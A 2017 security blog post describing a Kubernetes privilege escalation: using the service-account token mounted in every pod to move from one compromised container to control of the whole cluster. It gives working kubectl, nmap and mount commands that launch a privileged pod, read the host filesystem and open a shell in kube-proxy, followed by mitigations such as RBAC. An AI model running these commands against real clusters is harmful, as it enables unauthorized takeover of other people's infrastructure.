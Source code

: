+++
title = "The Kubernetes Vuln No One Wants to Talk About"
date = "2017-07-10"
type = "post"
author = "antitree"
+++

![Kubernetes](/img/kubernetes.png)

## Summary

This blog post is going to show you how to go from exploiting a single container
to gaining root on an entire cluster and all nodes. This is caused by a default
flaw in the way Kubernetes manages containers.

I'm doing a lot more container work at my day job -- looking for container breakouts, container infastructure review, and orchestration technologies.
I've been involved in a few Kubernetes reviews and talked with others in the company about it and there's one vulnerability
that seems to make it into almost every report and yet no one thinks it's as important
as the security folks. So I want to start a dialog.

The issue is that in order for a container/pod to be orchestrated by Kubernetes, it must put
an authentication token _inside_ of the pod. This token grants access complete
control over the kubernetes cluster.

The short of it is this:

**If a single container is compromised, attackers can take over
other pods, nodes, and the entire cluster. Easily.**

If you don't like reading, just open up one of your Kubernetes pods and
look at `/var/run/secrets/kubernetes.io/serviceaccount/token`. If you see
something there you're probably at risk.

## Kubernetes Background

Kubernetes is a system from Google that is seeming (at least to me) to be the
defacto standard for container orchestration. 
Before I go into this one issue, I can say that I actually think it's a great product. It allows you to
orchestrate containers, keep track of key value pairs, handle secrets, and
setup the necessary infrastucture to do all of this out-of-the-box. This
is in comparison to bash scripts and cron jobs that container orchestration
has been doing previously.

The main selling point is scalability and management. Kubernetes can scale up not just
to run additional containers on a system, but create geographicaly disparate
containers across a network overlay seamslessly integrated with a load balancer
that can also auto-heal when it needs.

Kubernetes is in direct competition with Docker Swarm which aims to be
a native solution built directly into Docker. Docker Swarm does support
a lot of the same features but it relies on a lot of additional support
to make it work. (e.g. KV pair storage)

![Kubernetes Diagram](/img/kubernetes_diagram.png)

A couple of Kubernetes words that are operationally important:

* [Pod](https://kubernetes.io/docs/concepts/workloads/pods/pod/): For the sake of discussion, synonymous with container.
* [Node](https://kubernetes.io/docs/concepts/architecture/nodes/): A VM or box that can run pods.
* Services: Applications that do something on your cluster. (e.g. nginx)
* Master Node: A dedicated node that controls all other services.

If you're an attacker, the things you need to know is there could be lots of
services deployed in a cluster. But there is always one Kubernetes Service that
runs all of the management containers. Compromising this service compromises
everything else.

The main flaw as others have mentioned, is there is no security boundary between pods,
nodes, and services. Compromising one compromises them all (unless you're using
RBAC authentication).

## Exploit Setup

I'm not going to say that this attack works on all systems but here are the systems
that it affects:

* Latest Kubernetes as of writing the post
* ABAC authentication controls (default)

If you want to try this out, you can follow the pretty simple
[getting-started guide](https://kubernetes.io/docs/getting-started-guides/minikube/).


## Exploit
* Exploit the container. Run a vulnerable package, get compromised, however
it happens, the attacker is able to get a shell inside of the contatiner.
* Download the `kubectl` binary to interact with the Kubernetes API. Depending
on the pod you might have to install things like curl or wget:

```bash
apt update
apt install curl
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.6.7/bin/linux/amd64/kubectl
chmod +x ./kubectl
```

* You're going to need to find the Kubernetes cluster master node. Here's
how to find it if you're running the infrastructure:

`kubectl get services`

You'll see
```bash
NAME         CLUSTER-IP   EXTERNAL-IP   PORT(S)        AGE
ghost        10.0.0.134   <nodes>       80:30916/TCP   20m
kubernetes   10.0.0.1     <none>        443/TCP        21m
nginxtest    10.0.0.57    <pending>     80:31399/TCP   11m
```
This represents a ghost container, nginx, and the core kubernetes service which
is what I care about.

But as the attacker you're going to figure out something else. Like:
~~~bash
apt update
apt install nmap
nmap -sS -p443 10.0.0.0/24
~~~
I haven't looked to see how this IP is chosen but it's always been .1 using
Minikube and Tectonic. Your mileage may vary.

* With that information I can now choose to authentication to the kubernetes
API on "10.0.0.1". Check out this command:

```bash
./kubectl --server=https://10.0.0.1
--insecure-skip-tls-verify=true \
--token="$(</var/run/secrets/kubernetes.io/serviceaccount/token)" \
run --rm -i -t busybox --image=busybox --restart=Never \
--overrides='{"apiVersion": "v1", "spec":{"containers":
[{"name":"busybox","image":"busybox","stdin":true, "tty":true,
"securityContext":{"privileged":true}}]}}'
```

This is connecting to the Kubernetes service API, using the token found in
`/var/run/secrets/kubernetes.io/serviceaccount/token`, and starting
a priveleged busy box container -- the priveleged option is obviously the
important part.

* You're now the root user inside a container that maps host information into
the container. From there why not try to read everything on the host file system
```mkdir ohno
mount /dev/sda1 ohno
ls ohno/
```
You've just gained access to all files on that node. There are
more malicious things you can do but container breakouts are a separate subject.

Alternatively, if your goal is to compromise the rest of the cluster, why not
just create a shell inside of the master node's kube-proxy?
```
./kubectl --server=https://master-node --insecure-skip-tls-verify=true \
--token="$(</var/run/secrets/kubernetes.io/serviceaccount/token)"
exec --namespace=kube-system \
-it name-of-kube-proxy-image -c kube-proxy bash
```

**To summarize, you've just pivoted from one compromised pod to compromising
the entire cluster**

## Why it works

The KubeAdmin API communicates using a token (using ABAC auth). This token file is located at
`/var/run/secrets/kubernetes.io/serviceaccount/token`. It's there to send
back useful information to Kubernetes. What's worse is deleting it just means
that it'll be re-created. It's actually a mounted path if you look at it:
`tmpfs on /var/run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)`

## The fix
Like I said, I don't want to shame Kubernetes. It's going to be a solid product
and their roadmap is great. This is a known issue that should be highlighted
because IMHO, it makes it less secure than someone that ran their own container
orchestration with scripts. I really want Kubernetes to build security boundaries
between each of its components.

Until that happens, here's what you can do to mitigate:

* [Role-Based Access Controls](https://kubernetes.io/docs/admin/authorization/rbac/):
This has been supported for a while but
it was not enabled by default. If you don't use this, AFAIK, you're going
to be vulnerable.
* [Hack jobs](https://hackernoon.com/capturing-all-the-flags-in-bsidessf-ctf-by-pwning-our-infrastructure-3570b99b4dd0): You can think about doing things to try to protect this value
from being read by anyone else. Like I said deleting it doesn't do anything but
overmounting it with an empty directory might slow down an attacker.
* [Wait](https://github.com/kubernetes/kops/issues/1577):** Kubernetes knows about the issue and it's about determining
how to phase the problem out.

Can you think of a better idea? Email me, I'd be interested in hearing it. In
the mean time, if you ever find yourself in a net-pen and compromise a container,
this is your ticket to taking over the rest of their infrastructure.
